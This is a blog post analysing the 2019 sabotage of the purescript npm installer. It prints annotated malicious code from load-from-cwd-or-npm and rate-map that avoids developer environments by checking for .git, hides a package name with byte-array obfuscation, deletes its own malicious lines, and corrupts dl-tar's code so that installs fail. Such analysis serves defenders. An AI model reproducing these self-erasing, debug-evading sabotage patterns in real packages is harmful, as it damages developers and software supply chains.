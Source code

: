 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

``const tasks = [PassThrough];

   #tasks array containing the Passthrough Stream Constructor.
   It'll call tasks.unshift twice, so that it winds up at index 2 later.

 if (argLen === 2) {
    if (typeof args[1] !== 'function') {
       throw new TypeError(`Expected a function to compare two package versions, but got ${
         inspectWithKind(args[1])
   }.`);
 }
} else {
   #call  tasks.unshift 1
 tasks.unshift(resolveSemverFromNpm);

}
#call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

tasks.unshift(resolveFromNpm(modulePkgId));

try {
 const results = await Promise.all(tasks);
 let parent = module;
#Here comes a do-while loop that works out how the code is being run,
#by inspecting the parent property of each module in the chain.
#Check out the path.endsWith("cli")
 do {   
   parent = parent.parent;

   try {
     const {path} = parent;
#the attacker is deciding whether or not to run the exploit code, by checking on the version of the purescript npm installer,
#and if there is a .git working directory.  If the code detects a .git working directory, it'll skip the exploit.
#This is because .git directories aren't present in production environments, so it makes debugging this issue way harder.
# The intent is to  determine if a particular version of an installer is being run,
#and if the code is being run in a environment where it could be easily debugged!
      if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
       parent = 'npm';
       break;
     }
   } catch (_) {}
 } while (parent);
#The purpose of this parent variable is just the layup for the exploit code if the above conditions are met to allow for it.
 if (typeof parent !== 'string') {
   return results[2];
 }
#here's that [2] what's happening here is an if statement returning the PassThrough constructor
#in the case where the malicious code is being run, this breaks a related function to pull down some
#packages to complete the building of the software:

const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);``



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
#You'll see the same check here if the code is running in a debug or non production environment. But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  # store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
#this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
